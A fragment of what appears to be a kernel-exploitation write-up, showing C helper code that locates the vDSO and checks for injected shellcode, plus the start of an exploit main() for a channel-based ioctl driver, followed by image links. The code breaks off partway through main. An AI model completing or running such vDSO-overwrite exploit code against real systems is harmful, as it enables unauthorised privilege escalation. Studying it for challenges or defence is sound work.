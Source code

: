 ```C
static void hexdump(const void* buf, unsigned long size)
{
	int col = 0, off = 0;
	unsigned char* p = (unsigned char*)buf;
	char chr[16];

	while (size--) {
		if (!col)
			printf("\t%08x:", off);
		chr[col] = *p;
		printf(" %02x", *p++);
		off++;
		col++;
		if (!(col % 16)) {
			printf("\t");
			for (int i=0; i<16; i++)
                printf("%c", chr[i]);
			printf("\n");
			col = 0;
		} else if (!(col % 4))
			printf("  ");
	}
	for (int i=0; i<off%16; i++)
        printf("%c", chr[i]);
	puts("");
}


void show_vdso_userspace(){
	unsigned long addr=0;
	addr = getauxval(AT_SYSINFO_EHDR);
	if(addr<0){
		puts("[-]cannot get vdso addr");
		return ;
	}
}
int check_vsdo_shellcode(char *shellcode){
	char *addr;
	addr = (char *)getauxval(AT_SYSINFO_EHDR);
	printf("vdso: 0x%lx\n", (unsigned long *)addr);
	if(addr<0){
		puts("[-]cannot get vdso addr");
		return 0;
	}	
	
	for(int i=0;i<strlen(shellcode);i++){
		if (*(addr+0xc80+i) != shellcode[i])
		    return 0;
	}
	return 1;
}

int main(){
	int fd = -1;
	unsigned long result = 0;
	struct alloc_channel_args alloc_args;
	struct shrink_channel_args shrink_args;
	struct seek_channel_args seek_args;
	struct read_channel_args read_args;
	struct close_channel_args close_args;
	struct write_channel_args write_args;
	unsigned long addr;

```

  [1]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=018ef8dcf3de5f62e2cc1a9273cc27e1c6ba8de5
  [2]: http://static.zybuluo.com/leafish/7kllxk3wq7npozo6ay31u34v/image_1e7t7btk61ih1ejb14smvk6ahe9.png
  [3]: http://static.zybuluo.com/leafish/ic34zdg3ad9pzjmdlexkscfr/image_1e7ng9lll1b8o3c618pi5d21h419.png
  [4]: http://static.zybuluo.com/leafish/kday5phaa948j024wr5zp6vu/image_1e7nsim15g5s1asa10oq1pmb1kaa9.png
  [5]: http://static.zybuluo.com/leafish/tyqt2hszfcv4dryegu5wcmdn/image_1e7nssvpm1nfrnononklo11gt6m.png
  [6]: http://static.zybuluo.com/leafish/y85k77eqmfr00x5v9fiqixcd/image_1e7ruv5ad1oq018ja10h14ft1qej13.png
  [7]: http://static.zybuluo.com/leafish/u3wt7758a10e22r0n4d06hpp/image_1e7rup6i21t73195b3a7iugto79.png
  [8]: http://static.zybuluo.com/leafish/2hwyuqcz7k70pihgu2zn4pqj/image_1e7rv1ckk76o11i81cadog7ee91g.png
  [9]: http://static.zybuluo.com/leafish/fvprvqa9klbq96h1opkzyalf/image_1e7rurbdg1jf01ie310mqkss1e88m.png
  [10]: http://static.zybuluo.com/leafish/bzbhhjvgu1j3qsodbcz3vngn/image_1e7t6hsg68ojri3mu3dq1gll1t.png